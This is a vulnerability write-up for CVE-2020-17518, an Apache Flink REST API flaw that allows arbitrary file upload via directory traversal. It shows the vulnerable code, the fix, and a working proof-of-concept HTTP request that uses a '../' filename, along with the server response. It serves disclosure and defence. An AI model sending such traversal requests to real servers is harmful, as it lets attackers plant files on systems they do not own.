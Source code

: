 <b>[CVE-2020-17518] Apache Flink RESTful API Arbitrary File Upload via Directory Traversal</b>
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Apache Flink is a framework and distributed processing engine for stateful computations over unbounded and bounded data streams which developed using Java and 
Scala. A REST handler which was introduced in Apache Flink 1.5.1 is vulnerable to arbitrary file upload vulnerability via directory traversal. This vulnerability allows attackers to file uploads to arbitrary directories on the local filesystem via crafted HTTP requests.

While all versions before `1.11.3` are affected the related vulnerability, Apache Flink has been fixed vulnerability for versions `1.11.3` and above.

Vulnerable code is `src/main/java/org/apache/flink/runtime/rest/FileUploadHandler.java` class. Related code snippet is down below.

```java
import javax.annotation.Nullable;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;

		final DiskFileUpload fileUpload = (DiskFileUpload) data;
		checkState(fileUpload.isCompleted());

		final Path dest = currentUploadDir.resolve(fileUpload.getFilename());

		fileUpload.renameTo(dest.toFile());
		LOG.trace("Upload of file {} complete.", fileUpload.getFilename());
	} else if (data.getHttpDataType() == InterfaceHttpData.HttpDataType.Attribute) {
		final Attribute request = (Attribute) data;
```

The problem is that user input that `filename` parameter is not sanitazed in any way. With this [commit](https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4?branch=a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4&diff=split), vulnerability has been fixed: in order to remove any path information, filename is wrapping around another file instantiation.

```java
import javax.annotation.Nullable;

import java.io.File;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;

		final DiskFileUpload fileUpload = (DiskFileUpload) data;
		checkState(fileUpload.isCompleted());

		//final Path dest = currentUploadDir.resolve(fileUpload.getFilename());
		final Path dest = currentUploadDir.resolve(new File(fileUpload.getFilename()).getName());
		
		fileUpload.renameTo(dest.toFile());
		//LOG.trace("Upload of file {} complete.", fileUpload.getFilename());
		LOG.trace("Upload of file {} into destination {} complete.", fileUpload.getFilename(), dest.toString());
	} else if (data.getHttpDataType() == InterfaceHttpData.HttpDataType.Attribute) {
		final Attribute request = (Attribute) data;
```

<b>Proof of Concept (PoC):</b> In order to exploit this vulnerability, you can use the following request

```
POST /jars/upload HTTP/1.1
Host: vulnerablehost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 217

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/CVE-2020-17519-PoC.txt"

This is the PoC file
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

Even if the status code of response is `400 Bad Request`, the file is uploaded to the server successfully.

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=UTF-8
Access-Control-Allow-Origin: *
content-length: 6017

{"errors":["org.apache.flink.runtime.rest.handler.RestHandlerException: Exactly 1 file must be sent, received 0.\n\tat org.apache.flink.runtime.webmonitor.handlers.JarUploadHandler.handleRequest(JarUploadHandler.java:76)\n\tat org.apache.flink.runtime.rest.handler.AbstractRestHandler.respondToRequest(AbstractRestHandler.java:73)\n\tat org.apache.flink.runtime.rest.handler.AbstractHandler.respondAsLeader(AbstractHandler.java:178)\n\tat org.apache.flink.runtime.rest.handler.LeaderRetrievalHandler.lambda$channelRead0$0(LeaderRetrievalHandler.java:81)\n\tat java.util.Optional.ifPresent(Optional.java:159)\n\tat org.apache.flink.util.OptionalConsumer.ifPresent(OptionalConsumer.java:46)\n\tat org.apache.flink.runtime.rest.handler.LeaderRetrievalHandler.channelRead0(LeaderRetrievalHandler.java:78)\n\tat org.apache.flink.runtime.rest.handler.LeaderRetrievalHandler.channelRead0(LeaderRetrievalHandler.java:49)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.SimpleChannelInboundHandler.channelRead(SimpleChannelInboundHandler.java:105)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)\n\tat org.apache.flink.runtime.rest.handler.router.RouterHandler.routed(RouterHandler.java:110)\n\tat org.apache.flink.runtime.rest.handler.router.RouterHandler.channelRead0(RouterHandler.java:89)\n\tat org.apache.flink.runtime.rest.handler.router.RouterHandler.channelRead0(RouterHandler.java:54)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.SimpleChannelInboundHandler.channelRead(SimpleChannelInboundHandler.java:105)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)\n\tat org.apache.flink.shaded.netty4.io.netty.handler.codec.MessageToMessageDecoder.channelRead(MessageToMessageDecoder.java:102)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)\n\tat org.apache.flink.runtime.rest.FileUploadHandler.channelRead0(FileUploadHandler.java:169)\n\tat org.apache.flink.runtime.rest.FileUploadHandler.channelRead0(FileUploadHandler.java:68)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.SimpleChannelInboundHandler.channelRead(SimpleChannelInboundHandler.java:105)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.CombinedChannelDuplexHandler$DelegatingChannelHandlerContext.fireChannelRead(CombinedChannelDuplexHandler.java:438)\n\tat org.apache.flink.shaded.netty4.io.netty.handler.codec.ByteToMessageDecoder.fireChannelRead(ByteToMessageDecoder.java:328)\n\tat org.apache.flink.shaded.netty4.io.netty.handler.codec.ByteToMessageDecoder.channelRead(ByteToMessageDecoder.java:302)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.CombinedChannelDuplexHandler.channelRead(CombinedChannelDuplexHandler.java:253)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.DefaultChannelPipeline$HeadContext.channelRead(DefaultChannelPipeline.java:1421)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.DefaultChannelPipeline.fireChannelRead(DefaultChannelPipeline.java:930)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.nio.AbstractNioByteChannel$NioByteUnsafe.read(AbstractNioByteChannel.java:163)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.nio.NioEventLoop.processSelectedKey(NioEventLoop.java:697)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.nio.NioEventLoop.processSelectedKeysOptimized(NioEventLoop.java:632)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.nio.NioEventLoop.processSelectedKeys(NioEventLoop.java:549)\n\tat org.apache.flink.shaded.netty4.io.netty.channel.nio.NioEventLoop.run(NioEventLoop.java:511)\n\tat org.apache.flink.shaded.netty4.io.netty.util.concurrent.SingleThreadEventExecutor$5.run(SingleThreadEventExecutor.java:918)\n\tat org.apache.flink.shaded.netty4.io.netty.util.internal.ThreadExecutorMap$2.run(ThreadExecutorMap.java:74)\n\tat java.lang.Thread.run(Thread.java:748)\n"]}
```
![Image of PoC](https://github.com/murataydemir/CVE-2020-17518/blob/main/poc.png)
![Image of PoC](https://github.com/murataydemir/CVE-2020-17518/blob/main/poc2.png)
